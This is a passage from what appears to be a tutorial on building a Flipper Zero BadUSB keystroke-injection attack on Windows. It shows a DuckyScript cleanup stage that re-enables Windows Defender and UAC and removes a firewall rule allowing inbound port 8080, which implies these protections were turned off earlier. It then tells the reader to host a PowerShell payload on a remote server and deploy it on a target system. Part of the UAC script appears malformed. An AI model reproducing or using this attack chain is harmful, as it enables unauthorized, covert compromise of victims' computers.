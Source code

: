 ```
STRING start-service -Name WinDefend
DELAY 500
ENTER
# Set the startup type back to automatic
STRING set-service -Name WinDefend -StartupType Automatic
DELAY 500
ENTER

# Optional: Remove the previously added firewall rule
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
ENTER
# Remove the rule allowing inbound traffic on port 8080
STRING remove-netfirewallrule -DisplayName 'AllowIncoming8080'
DELAY 500
ENTER

# Optional: Re-enable User Account Control (UAC)
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
ENTER
STRING $regpathReenableUac='HKLM:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System';
# Specify name and value for UAC
$namereenableuac='EnableLUA';
$valuereenableuac=1;
# Re-enable UAC
New-ItemProperty -Path $regpathReenableUac -Name $namereenableuac -Value $valuereenableuac -PropertyType DWORD -Force
DELAY 1000
ENTER

```

---

### **Step 4: Hosting the Script**

Upload `payload.ps1` to a server and replace `https://your-server.com/payload.ps1` with the actual URL.

---

### **Step 5: Testing and Deployment**

1. **Test the Script**: Test the script in a controlled environment to ensure it works as expected.
2. **Deploy the Flipper Zero Payload**: Use the Flipper Zero to deploy the payload on the target system.

---
